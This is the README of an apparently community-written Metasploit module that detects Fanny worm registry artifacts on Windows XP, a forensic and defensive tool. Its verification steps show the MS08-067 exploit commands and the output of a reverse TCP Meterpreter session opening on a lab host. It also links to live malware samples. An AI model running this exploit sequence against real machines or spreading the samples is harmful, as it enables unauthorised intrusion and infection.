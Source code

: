 ## Fanny.bmp (DWE) Detection Module
Fanny or DWE for short. (DWE = DementiaWheel)

## Vulnerable Application
Detection module based on the post-/gather/forensics module duqu_check.rb,

Fanny is a worm that infects windows machines, via USB (not trough Autorun, or at least not only). It used exploits later found in StuxNet, and creates some Registry artifacts.
This module is intended to detect those artifacts.

POC https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png


  #### supported Environments:
    - [ ] Windows x86

  ####  supported SessionTypes:
    - [ ]  Meterpreter
    - [ ]  Shell

  #### supported OS's:
    - [ ] Windows XP Pro (SP3)

-------------------------


## Verification Steps


- [ ] First, Git clone the fanny_bmp_check.rb from https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb

- [ ] place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

- [ ] * make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

- [ ] Start msfconsole

- [ ] use exploit/windows/smb/ms08_067_netapi

- [ ] set RHOST and LHOST.

- [ ] msf6 exploit(windows/smb/ms08_067_netapi) > run

        [*] Started reverse TCP handler on 192.168.122.1:4444 
        [*] 192.168.122.160:445 - Automatically detecting the target...
        [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
        [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
        [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
        [*] Sending stage (175174 bytes) to 192.168.122.160
        [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check 

        [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
        [*] WORKSTATION1: 4 result(s) found in registry.

-------------------------

## Options
List each option and how to use it.
Session is needed, Do not know really what to include here, other than that.

  < Intentionally left blank >

-------------------------


### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

  < Intentionally left blank >

-------------------------


## Scenarios
Specific #demo

I Will upload a POC video demonstrating this on Windows 10, x64. Sooner or later.
There's already a XP POC video located here 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/FannyMalware%20POC%20.mp4

"Equation Group Q&A PDF File" - Explaining (not only) Fanny, (but also many others, in the "same family" of malware)
 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/Equation_group_questions_and_answers.pdf

If needed, I included malware samples on the same page.
 
 **It goes without saying that if you proceed to this page Please exercise caution.**
 
 - https://github.com/loneicewolf/fanny.bmp


## References

- [ ] https://securelist.com/a-fanny-equation-i-am-your-father-stuxnet/68787
- [ ] https://fmnagisa.wordpress.com/2020/08/27/revisiting-equationgroups-fanny-worm-or-dementiawheel/
- [ ] https://edwardsnowden.com/wp-content/uploads/2017/06/FOXACID-Server-SOP-Redacted.pdf


### Optional reading

- [ ] https://github.com/loneicewolf/fanny.bmp/blob/main/2004.06195.pdf

-------------------------


## Version and OS

### Tested on

  - [ ] Windows XP Pro SP3 English


-------------------------


## Contact info

Any questions or Improvements / Issues is welcomed either via mail or at the issues tab/page.

william-martens@protonmail.ch

